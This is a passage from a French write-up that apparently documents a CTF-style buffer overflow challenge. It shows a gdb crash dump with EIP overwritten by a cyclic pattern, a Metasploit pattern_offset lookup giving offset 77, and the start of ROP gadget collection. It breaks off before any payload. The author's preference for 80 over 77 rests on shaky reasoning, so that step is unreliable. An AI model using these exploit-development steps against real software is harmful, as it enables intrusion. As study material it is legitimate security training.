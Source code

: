```bash
EDI: 0xf76f7000 --> 0x1b2db0
EBP: 0x63413463 ('c4Ac')
ESP: 0xffe9f090 ("Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag")
EIP: 0x36634135 ('5Ac6')
EFLAGS: 0x10282 (carry parity adjust zero SIGN trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
Invalid $PC address: 0x36634135
[------------------------------------stack-------------------------------------]
0000| 0xffe9f090 ("Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag")
0004| 0xffe9f094 ("c8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag")
0008| 0xffe9f098 ("9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag")
0012| 0xffe9f09c ("Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag")
0016| 0xffe9f0a0 ("d2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag")
0020| 0xffe9f0a4 ("3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag")
0024| 0xffe9f0a8 ("Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag")
0028| 0xffe9f0ac ("d6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag")
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value
Stopped reason: SIGSEGV
0x36634135 in ?? ()
```

Une fois l'erreur provoquée, nous recherchons à quel endroit.

```bash
/usr/share/metasploit-framework/tools/exploit/pattern_offset.rb 36634135
[*] Exact match at offset 77
```

Nous avons donc deux valeurs et je pencherai pour 80 car 77 n'est pas logique (nombre impaire).

Dans l'enoncé il est précisé de passer par un re2libc ou bien un rop car il n'est pas possible d'accéder à la pile. (ligne 17)

Je vais tester via un ROP car c'est un domaine qui m'est inconnu, du moins dans la pratique.

## Récuperer les gadgets ##

Je reste perplexe sur certains résulats lors de mes recherches :

ROPgadget me sort 66 gadgets,
dumprop lui 83 gadgets.

Prenons par exemple l'instruction "ret" :
